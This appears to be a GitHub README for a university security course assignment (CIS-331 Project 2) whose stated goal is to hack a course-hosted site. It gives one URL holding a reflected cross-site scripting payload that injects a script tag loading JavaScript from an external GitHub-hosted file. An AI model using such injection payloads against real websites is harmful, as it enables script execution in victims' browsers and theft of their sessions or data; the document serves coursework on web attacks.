 # CIS-331_Project2
Project 2, Part 3 of CIS-331.  Objective is to hack the site cis331.cis.upenn.edu/project2.  Externally hosting this code makes the implementation easier.

The URL to the hacked site: 

http://cis331.cis.upenn.edu/project2/search?q=%3Cscript%20src=%22https://rawgithub.com/shib340/CIS-331_Project2/master/xss_0.js%22%3E%3C/script%3E
